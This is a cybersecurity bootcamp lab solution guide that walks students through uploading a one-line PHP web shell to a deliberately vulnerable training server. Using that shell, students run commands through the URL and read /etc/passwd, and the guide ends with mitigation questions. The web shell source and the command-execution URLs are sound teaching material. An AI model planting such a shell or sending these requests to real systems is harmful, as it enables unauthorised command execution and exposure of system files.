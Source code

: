 ## Solution Guide: Local File Inclusion 

In this activity, you were tasked with testing an intended purpose of an application by uploading and viewing a basic image file. You were then tasked with uploading a malicious PHP script and using the script to execute command-line scripts against the web server.

---

1. Test the intended use of the web application.

    **Uploading the Image**

    We will first see how to upload and view an image from the file upload webpage.

      - First select Browse to find the image that you want to upload.

      - By default, this should take you to the desktop of your Vagrant filesystem.

        - If it takes you to a different location, select Desktop.

      - There will be a file on your desktop called `image.jpg`.

        - Select that image.

      - Back on the file upload page, you should see the `image.jpg` filename that you selected.

        - To upload the file, select Upload.

      - You should then receive a success message that states the following:

        `../../hackable/uploads/image.jpg succesfully uploaded!`
      
    **Viewing the image**  

    - Note that the previous success message indicates where the file has been uploaded to: 
      
      - `../../hackable/uploads/image.jpg`

    - Access the image by replacing the `#` at the end of the URL, with the complete location indicated above.

      - `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/image.jpg `

      - Note that your browser will automatically update the URL to the direct location of the image:

        - `http://192.168.13.25/hackable/uploads/image.jpg`

    - You should see the image of a squirrel. 
    
      - Note that this is how the application is intended to work, by providing the user with an option to upload and view an image!

2. Test an unintended function of the application by loading a malicious PHP script.

    - Note that you just tested how the application is designed to load and view an image.

    - Let's now view a malicious PHP script that we can upload, instead of an image.

    - The malicious PHP script, called `script.php`, has been placed on your desktop.

      - To view this script, find it on your desktop and double-click on it to open:
      
                  <?php
                  $command = $_GET['cmd'];
                  echo system($command);
                  ?>

      - While understanding the exact syntax is not important for now, just note that the contents in the script are designed to run a PHP script to execute a user command.

    - Return to the file upload webpage and follow the same steps again, but this time select and upload the file `script.php`.

      - Note that this script will be uploaded to the same location as the image you previously uploaded.

3. Run command-line commands with your PHP script.

    - Let's now see if we can run command-line commands against the Replicants web server!

      - Change the URL to access the script that you just uploaded.
      
    - Modify the URL again to run the several Linux commands:

      - **Hint**: Review your class slides to see how to modify the URL to run command-line commands.

      - Run the following Linux commands and take note of the results:

        1. `ls`

        2. `whoami`
        
        3. `pwd`
        
        4. `ps`

    - **Note**: While this is a safe place to experiment with commands, DO NOT run commands that might delete or alter files that your system needs, such as `rm`, `mv`, or `rdmir`.

    - **Solution**: The commands to run these scripts are as follows.

      1. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ls`

          - Results might vary but will look like the following:

              - `image.jpg dvwa_email.png script.php script.php`

      2. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=whoami`

          - Results might look like the following:

              - `www-data www-data`

      3. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=pwd`

          - Results will look like the following:

              - `/var/www/html/hackable/uploads /var/www/html/hackable/uploads`   
                
      4. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ps`

          - Results might vary but will look like the following:

              - `PID TTY TIME CMD 305 ? 00:00:00 apache2 306 ? 00:00:00 apache2 307 ? 00:00:00 apache2 308 ? 00:00:00 apache2 309 ? 00:00:00 apache2 314 ? 00:00:00 apache2 315 ? 00:00:00 apache2 316 ? 00:00:00 apache2 317 ? 00:00:00 apache2 324 ? 00:00:00 sh 325 ? 00:00:00 ps 325 ? 00:00:00 ps`

4. **Bonus**: Run commands to explore files with your PHP script.

    - Let's now see if we can run malicious commands to explore files within the Replicants web server.

      - By modifying the URL, access the script that you just uploaded.
      
    - Modify the URL to view the `/etc/passwd` file.

      - **Hint**: You will need to encode your payload, as the URL will not accept all characters, such as spaces.

      - Use the following webpage to help design your payload: [MeyerWeb: URL Encoder/Decoder](https://meyerweb.com/eric/tools/dencoder/).

    - **Solution**

      - The command to run this script is as follows:

        `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=cat%20../../../../../etc/passwd`

      - Results will look like the following:

        `root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false`  

5. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user can take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers, as if a web application is vulnerable to local file injection, a variety of malicious payloads can be exploited. Impacts could include the following:
          
          - Display of confidential data such as user accounts, password hashes, service accounts, or network information.
          
          - Deletion or modification of the preceding confidential data, which can lead to system outages.

    - Describe in plain language how you might mitigate the vulnerabilities that you just exploited.

      - There are many acceptable answers, all involving input validation. Options might include server-side validation, to only allow certain file types to be uploaded.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
